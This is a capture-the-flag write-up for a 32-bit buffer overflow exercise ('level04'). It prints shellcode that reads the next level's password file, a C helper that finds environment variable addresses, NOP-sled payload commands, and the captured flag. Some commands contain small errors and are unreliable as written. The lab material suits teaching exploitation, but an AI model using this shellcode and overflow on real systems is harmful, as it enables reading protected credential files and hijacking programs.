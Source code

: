 # level04

For this level, we have a program that is telling us `Give me some shellcode, k` and we can see that it create a child process and that we can make segfault the child process. 

With [gdb](Ressources/gdbwriteup.md), we found that the buffer is at 156, so we will have to inject our shellcode after that.

```bash
python -c 'print("\x90" + "SHELLCODE ADDRESS") | ./level04'
```

We will create a shellcode that will read the file containing the flag, and we will use [this shellcode](http://shell-storm.org/shellcode/files/shellcode-73.html) to create it.

```bash
export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'
```

Now, we will create a program to find the address of our shellcode.

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    if (argc == 2)    
        printf("%p\n", getenv(argv[1]));
    return (0);
}
```
We will need to compile it with the flag `-m32` to get the address in 32 bits.

```bash
gcc -m32 -o main.c
./getaddr $SHELLCODE
```

Now, we can run our exploit.

```bash
python -c 'print("\x90" * 156 + "SHELLCODE ADDRESS") | ./level04'
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```